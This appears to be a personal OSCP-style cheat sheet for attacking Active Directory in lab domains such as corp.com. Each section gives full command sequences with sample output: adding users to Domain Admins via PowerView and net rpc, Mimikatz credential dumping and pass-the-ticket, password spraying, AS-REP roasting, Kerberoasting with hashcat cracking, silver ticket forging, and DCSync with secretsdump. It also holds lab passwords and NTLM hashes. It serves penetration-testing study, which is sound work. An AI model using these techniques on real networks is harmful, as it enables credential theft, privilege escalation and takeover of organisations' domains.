









# Cached AD Credentials


# PowerView via Evil-WinRM - Upload and load PowerView to unlock AD commands
```bash
upload PowerView.ps1
. ./PowerView.ps1
# After loading, run 'menu' to confirm new commands are available
# Look for: Add-DomainGroupMember, Find-DomainShare, Get-NetComputer etc.

# Add a user to Domain Admins using PowerView with a credential object
$pass = ConvertTo-SecureString 'PASSWORD' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('USERNAME', $pass)
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'USERNAME' -Credential $cred

# Example:
$pass = ConvertTo-SecureString 'SqueakyRedDesk111' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('c.rogers', $pass)
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'c.rogers' -Credential $cred
# Example Result:
# User is now a member of Domain Admins
# What to do next? Connect to the DC with the newly elevated user via Evil-WinRM:
evil-winrm -i <DC IP> -u USERNAME -p 'PASSWORD'
# Once in, navigate and grab proof:
cd ../../administrator/desktop
whoami; hostname; type proof.txt; ipconfig
```

# Add user to Domain Admins from Kali (no Windows session needed)
```bash
# Alternative to PowerView - runs straight from Kali terminal via RPC
net rpc group addmem "Domain Admins" "USERNAME" -U "DOMAIN"/"USERNAME"%"PASSWORD" -S "DOMAIN"

# Example:
net rpc group addmem "Domain Admins" "b.martin" -U "oscp.exam"/"c.rogers"%"SqueakyRedDesk111" -S "oscp.exam"
# Example Result:
# (no output = success)
# What to do next? Connect to the DC with the newly elevated user:
evil-winrm -i <DC IP> -u b.martin -p 'PASSWORD'
```

## Mimikatz
```bash
https://adsecurity.org/?page_id=1821
```

```bash
# Run as Administrator
.\mimikatz.exe

#Then
privilege::debug

#dump the credentials of all logged-on users
sekurlsa::logonpasswords

# Condensed Results
jeff: 2688c6d2af5e9c7ddb268899123744ea
dave: 08d7a47a6f9f66b97b1bae4178747494

#Crack hashes. Refer to password attack section.

# OR 
# Exploit Kerberos authentication by abusing TGT/service tickets.

# Open another powershell window

powershell -ep bypass

# Import PowerView.ps1
Import-Module .\PowerView.ps1

# List all computers in the domain with PowerView
Get-NetComputer | select dnshostname

# Results
dnshostname                                                                                                             -----------                                                                                                             DC1.corp.com                                                                                                            web04.corp.com                                                                                                          FILES04.corp.com                                                                                                        client74.corp.com                                                                                                       client75.corp.com                                                                                                       CLIENT76.corp.com  

# enumerate shares on the interesting ones
net view \\web04.corp.com

# Results
Share name  Type  Used as  Comment

-------------------------------------------------------------------------------
backup      Disk

# Dig Deeper
dir \\web04.corp.com\backup

# Goal: What just happened:
When you ran dir \\web04.corp.com\backup, Windows automatically went to the Domain Controller and said "hey, jeff wants to access web04's backup share, can he?" The DC said yes and issued a Kerberos service ticket for that specific resource. Windows then stored that ticket in memory (LSASS) for future use so you don't have to re-authenticate every time.
Why that matters:
Now that the ticket is sitting in memory, you can use Mimikatz to steal it. And here's the powerful part — if you steal someone else's ticket that's already cached on the machine, you can impersonate that user without ever knowing their password.
The full flow:

User accesses a share → Kerberos issues a ticket → ticket gets cached in LSASS
You run Mimikatz → steal the cached ticket
You inject that ticket into your own session → you are now impersonating that user
You can access whatever that user had access to


```


## Steal the ticket
```bash
# Go back to Mimikatz
sekurlsa::tickets

# Results
cifs ; web04.corp.com — the backup share you just accessed
cifs ; DC1.corp.com — the domain controller file share
krbtgt ; CORP.COM — this is the TGT (Ticket Granting Ticket), the most valuable one

# Next Step
mimikatz # sekurlsa::tickets /export

# This dumps all tickets as .kirbi files to your current directory. Then you inject dave's TGT into your session:

kerberos::ptt [path to dave's TGT .kirbi file]

```


# Performing Attacks on Active Directory Authentication

## Password Attack with script

```bash
# Refer to OSCP Section 23.2.1 for more information
# This script works if you have a password, but no username. The -Pass option allows us to set a single password to test, or we can submit a wordlist file using -File. We can also test admin accounts by adding the -Admin flag. The PowerShell script automatically identifies domain users and sprays a password against them.
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
```


## Password Attack with CME

```bash
# Create user file or use single user
cat users.txt
dave
jen
pete

# Then
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```


```bash
# NOTE: If it displays (PWN3D!), then it has Admin privs
```


## 3rd Option: Password spray with Kerbrute

```bash
# Get the domain name
systeminfo | findstr /i "domain"

#Results
Domain:                    corp.com

# With single username or username file and a password
# Create a username file manually or with powershell
@"
pete
dave
jen
"@ | Out-File .\usernames.txt

# NOTE: Must change encoding to ANSI while saving
```

```bash
# Verify it
type .\usernames.txt

# Run the password spray

.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```


# AS-REP Roasting on Kali

```bash
# enter the IP address of the domain controller as an argument for -dc-ip
# output file name in which the AS-REP hash will be stored in Hashcat format for -outputfile
# -request to request the TGT.
# target authentication information in the format domain/user. This is the user we use for authentication. For this example, we'll use pete with the password Nexus123! from the previous section.

impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete

# Or
cd ~/impacket-latest/examples

python3 GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete

# Results
Password:
Name  MemberOf  PasswordLastSet             LastLogon                   UAC      
----  --------  --------------------------  --------------------------  --------
dave            2022-09-02 19:21:17.285464  2022-09-07 12:45:15.559299  0x410200 

# This shows that DAVE is vulnerable to AS-REP Roasting

# Crack the newly obtained hash with a rule
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

# AS-REP Roasting on Windows with Rubeus.exe

```bash
.\Rubeus.exe asreproast /nowrap

# Results (Dave again)
$krb5asrep$dave@corp.com:AE43CA9011CC7E7B9E7F7E7279DD7F2E$7D4C59410DE2984EDF35053B7954E6DC9A0D16CB5BE8E9DCACCA88C3C13C4031ABD71DA16F476EB972506B4989E9ABA2899C042E66792F33B119FAB1837D94EB654883C6C3F2DB6D4A8D44A8D9531C2661BDA4DD231FA985D7003E91F804ECF5FFC0743333959470341032B146AB1DC9BD6B5E3F1C41BB02436D7181727D0C6444D250E255B7261370BC8D4D418C242ABAE9A83C8908387A12D91B40B39848222F72C61DED5349D984FFC6D2A06A3A5BC19DDFF8A17EF5A22162BAADE9CA8E48DD2E87BB7A7AE0DBFE225D1E4A778408B4933A254C30460E4190C02588FBADED757AA87A

# copy the AS-REP hash and paste it into a text file named hashes.asreproast2

# Hashcat

sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

```
# Kerberoasting from Windows
```bash
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast

# Results
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : corp.com
[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : iis_service
[*] DistinguishedName      : CN=iis_service,CN=Users,DC=corp,DC=com
[*] ServicePrincipalName   : HTTP/web04.corp.com:80
[*] PwdLastSet             : 9/7/2022 5:38:43 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Tools\hashes.kerberoast

# Copy hash to Kali and run hashcat
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
# Kerberoasting from Linux
```bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete

# Crack hash with hashcat
sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

# Silver Tickets

```bash
# Open Mimikatz as Admin
privilege::debug

#Step 1: Grab User NTLM and Domain SID
sekurlsa::logonpasswords

# Results
Authentication Id : 0 ; 1212752 (00000000:00128150)
Session           : Service from 0
User Name         : iis_service
Domain            : CORP
Logon Server      : DC1
Logon Time        : 3/23/2026 7:16:36 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1109
        msv :
         [00000003] Primary
         * Username : iis_service
         * Domain   : CORP
         * NTLM     : 4d28cf5252d39971419580a51484ca09

# NTLM: 4d28cf5252d39971419580a51484ca09
# Domain SID: S-1-5-21-1987370270-658905905-1781884369 (Exclude the user part at the end)

#NOTE This can be accomplished also by a whoami /user command

# Step 2: Build Command for Ticket. Required Information is:
- The domain SID (/sid:)
- domain name (/domain:)
- target where the SPN runs (/target:)
- SPN protocol (/service:)
- NTLM hash of the SPN (/rc4:)
- /ptt option

#Example command:
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

# Results
User      : jeffadmin
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 4d28cf5252d39971419580a51484ca09 - rc4_hmac_nt
Service   : http
Target    : web04.corp.com
Lifetime  : 9/14/2022 4:37:32 AM ; 9/11/2032 4:37:32 AM ; 9/11/2032 4:37:32 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jeffadmin @ corp.com' successfully submitted for current session

# Then run
exit

# What we did: a new service ticket for the SPN HTTP/web04.corp.com has been loaded into memory and Mimikatz set appropriate group membership permissions in the forged ticket.

# In Powershell run this to confirm the ticket is ready for use in memory:
klist

# Results
Current LogonId is 0:0xa04cc

Cached Tickets: (1)

#0>     Client: jeffadmin @ corp.com
        Server: http/web04.corp.com @ corp.com
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 9/14/2022 4:37:32 (local)
        End Time:   9/11/2032 4:37:32 (local)
        Renew Time: 9/11/2032 4:37:32 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:

# Verify access
iwr -UseDefaultCredentials http://web04
```

# Domain Controller Synchronization (dcsync) from Windows

```bash
# Load mimikatz.exe as admin
.\mimikatz.exe

# Then (This targets user dave)
lsadump::dcsync /user:corp\dave

#Results
Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
```


```bash
# Crack the hash (On kali machine)
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# Results
08d7a47a6f9f66b97b1bae4178747494:Flowers1 
```
```bash
# Find and crack the administrator hash
lsadump::dcsync /user:corp\Administrator

# Results
Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
```

## DCsync from Linux
```bash
# Change to correct directory
cd ~/impacket-latest/examples

# Run command
python3 secretsdump.py -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.104.70

# Results
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::

# Take the 2nd half of that `08d7a47a6f9f66b97b1bae4178747494` and crack it.

# Administrator Example:
python3 secretsdump.py -just-dc-user administrator corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.104.70

# Results
Administrator:aes256-cts-hmac-sha1-96:56136fd5bbd512b3670c581ff98144a553888909a7bf8f0fd4c424b0d42b0cdc
```
